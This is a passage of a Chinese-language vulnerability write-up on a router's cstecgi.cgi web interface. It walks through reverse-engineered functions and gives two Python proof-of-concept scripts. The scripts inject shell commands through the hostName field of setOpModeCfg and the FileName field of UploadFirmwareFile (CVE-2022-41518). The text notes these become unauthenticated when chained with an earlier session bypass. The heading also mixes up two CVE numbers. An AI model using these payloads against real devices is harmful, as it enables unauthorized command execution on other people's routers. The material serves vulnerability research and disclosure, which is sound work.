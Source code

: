 ![](https://cdn.nlark.com/yuque/0/2022/png/574026/1668130277054-cecc68b0-b945-4796-94e6-1ca07868ec88.png)

向下滑动查找就能找到：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1668130504255-accf06df-c994-443c-8a97-4900b4111c78.png)

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1668130340854-e29dce35-2681-4c8b-aecd-44896fde2448.png)

所以该函数的名称为`setOpModeCfg`：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1668130574084-98dca1b4-ce9e-49c1-8ce3-d88536684fa8.png)

综合上面的信息，可以有以下poc：

```python
import requests

url = "http://192.168.5.1/cgi-bin/cstecgi.cgi"			# 目标可执行文件
cookie = {"Cookie":"SESSION_ID=2:1668131006:2"}			# 有效的cookie，通过前面的验证绕过即可获取
data = {
    "topicurl" : "setOpModeCfg",						# setOpModeCfg
	"proto" : "5",										# 将值设置为5
	"switchOpMode" : "1",
	"hostName" : "';ls -al /;'"							# 命令注入，websGetVar(a1,"hostName","") == ";ls -al /;"(注意这里是两层引号)
                                                        # 因为：echo '%s' > /proc/sys/kernel/hostname
}
response = requests.post(url, json=data, cookies=cookie)	# 授权命令执行
print(response.text)
```

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1668131294642-7d7f9ecb-3794-41d9-b5fd-5d8049e0b130.png)

## ②、CVE-2022-41518
`CVE-2022-41525`的成因是`cstecgi.cgi`的`doSystem`过滤不严谨，依循着这条链查找：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1668132000975-f55cb628-bb81-4ee6-9c2c-6f97e0609826.png)

确实有很多函数调用了doSystem，那就看参数可控不可控了。`CVE-2022-41518`的漏洞存在于`UploadFirmwareFile`，同样，需要像之前一样处理下：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1668133385207-bc1ea932-2af4-4bfb-af54-eefa9cc62698.png)

交叉引用到`sub_42D3B4`：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1668133537057-4ee248d2-3789-4d57-8d39-094b4174ebc0.png)

该CVE也是授权命令执行，但结合之前的漏洞可以成为未授权命令执行，poc如下：

```python
import requests
url = "http://192.168.5.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1668133776:2"}
data = {
    'topicurl' : "UploadFirmwareFile",
	"FileName" : ";ls -al /;"
}
response = requests.post(url, cookies=cookie, json=data)
print(response.status_code)
print(response.text)
```
